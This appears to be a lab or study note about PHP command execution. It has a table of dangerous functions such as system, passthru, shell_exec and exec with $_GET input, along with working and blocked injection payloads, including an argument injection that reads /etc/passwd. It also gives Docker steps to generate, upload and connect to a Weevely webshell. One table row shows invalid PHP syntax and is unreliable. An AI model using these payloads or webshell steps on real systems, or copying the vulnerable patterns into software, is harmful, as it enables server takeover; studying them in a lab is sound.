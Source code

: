 | Function / Technique                                      | What It Does                                           | Main Dangers                                | Working Attack Example                                                                             | Non-Working Attack Example                                                   |
|-----------------------------------------------------------|---------------------------------------------------------|----------------------------------------------|----------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------|
| `system($_GET['cmd'])`                                    | Executes command provided via URL                      | Remote Code Execution (RCE)                  | `http://localhost:8000/?cmd=ls`                                                                   | None if the command is valid                                                |
| `system(escapeshellcmd($_GET['cmd']))`                    | Executes commands avoiding concatenation               | Partial protection, vulnerable to arg injection | `?cmd=ls`                                                                                         | `?cmd=echo "<?php system($_GET['cmd']);" > webshell.php` (blocked)         |
| `system("ping -c 3 " . escapeshellcmd($_GET['host']))`    | Pings the specified host                               | Argument injection with spaces               | `?host=127.0.0.1`                                                                                  | `?host=127.0.0.1;cat /etc/passwd` (doesn’t work)                            |
| `system("find . -name ".escapeshellcmd($_GET['file']))`   | Searches for a specific file                           | Argument injection (e.g., `-exec`)           | `?file=index.php -exec cat /etc/passwd ;`                                                        | `?file=;cat /etc/passwd` (doesn’t work)                                     |
| `system("find . -name ".escapeshellarg($_GET['file']))`   | Searches file with protected arguments                 | Correct protection from argument injection   | `?file=index.php`                                                                                 | `?file=index.php -exec cat /etc/passwd` (blocked)                          |
| `passthru($_GET['cmd'])`                                  | Like `system()`, also shows binary output              | Arbitrary command execution                  | `?cmd=ls`                                                                                          | `?cmd=;cat /etc/passwd` if filtered                                         |
| `shell_exec($_GET['cmd'])`                                | Returns command output as string                       | RCE, easy command chaining                   | `?cmd=whoami`                                                                                      | `?cmd=invalidcommand` (silent error)                                        |
| `exec($_GET['cmd'])`                                      | Executes command, returns only last line               | Incomplete output                            | `?cmd=ls`                                                                                          | `?cmd=cat /nonexistentfile`                                                |
| `exec("ls -la", $array); print_r($array);`                | Saves full output in array                             | Output can be manipulated or filtered        | Direct PHP code                                                                                   | N/A (always works if `ls` is valid)                                         |
| `preg_replace('/.*/e', 'system("whoami");', '')`          | Uses regex to execute code                             | Deprecated, can hide code execution          | On older PHP versions                                                                            | In PHP ≥ 7.0: doesn’t work                                                 |
| `$output = $(whoami);`                                    | Alternate syntax for command execution                 | Helps obfuscation                            | `echo "<pre>$output</pre>";`                                                                      | Not supported in modern PHP                                                |
| `system(escapeshellcmd($_SERVER['HTTP_ACCEPT_LANGUAGE']))`| Executes a system command from the Accept-Language HTTP header | Can lead to command injection if header is manipulated | `curl -H "Accept-Language: ls" http://localhost:8000/` | `curl -H "Accept-Language: ;cat /etc/passwd" http://localhost:8000/` (blocked) |


## Weevely: easy creation of webshells

**weevely setup**

1. run server:  `docker run -d -p 8111:80 -v $PWD:/var/www/html php:7.0-apache `
2. run Weevely  `docker run -it janes/weevely bash `
   1. `weevely generate mypassword agent.php`
3. copy the generated `agent.php` to the web server


**weevely connection**

1. start a session inside Weevely container: `weevely http://<container-ip>/agent.php mypassword`
    1. to now container ip: `docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' <container-id>`
2. interact with the web shell
